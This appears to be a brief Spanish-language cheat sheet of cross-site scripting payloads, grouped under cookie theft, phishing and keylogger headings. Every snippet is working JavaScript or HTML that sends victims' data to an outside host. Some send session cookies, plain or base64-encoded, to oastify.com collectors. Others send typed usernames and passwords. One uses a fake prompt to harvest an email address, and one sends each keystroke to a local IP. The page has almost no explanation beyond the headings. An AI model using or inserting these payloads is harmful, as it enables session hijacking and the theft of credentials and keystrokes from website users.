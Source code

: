 - Robo de cookies

```html
<script>
var request = XMLHttpRequest();
request.open('GET','https://gtdnm8w84ckzue4nnih40u07oyurii67.oastify.com/?cookie='+document.cookie);
request.send();
</script>
```

```html
<script>
fetch('https://gtdnm8w84ckzue4nnih40u07oyurii67.oastify.com/?cookie='+document.cookie);
</script>
```

```html
<script>
fetch('https://gtdnm8w84ckzue4nnih40u07oyurii67.oastify.com/?cookie='+btoa(document.cookie));
</script>
```

- Phishing

```html
<input name=username id=username onchange="fetch('https://g2jnv858dctz3ednwiq49u97xy3vrlfa.oastify.com/?username='+this.value)"><br>
<input type=password name=password id=password onchange="fetch('https://g2jnv858dctz3ednwiq49u97xy3vrlfa.oastify.com/?password='+this.value)">
```

```html
<script>
  var email = prompt("Por favor, introduce tu correo electrónico para visualizar el post", "example@example.com");

  if (email == null || email == ""){
    alert("Es necesario introducir un correo válido para visualizar el post");
  } else {
    fetch("http://192.168.1.144/?email=" + email);
  }
</script>
```

- Keylogger

```html
<script>
  var k = "";
  document.onkeypress = function(e){
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://192.168.1.144/"+k;
  };  
</script>
```
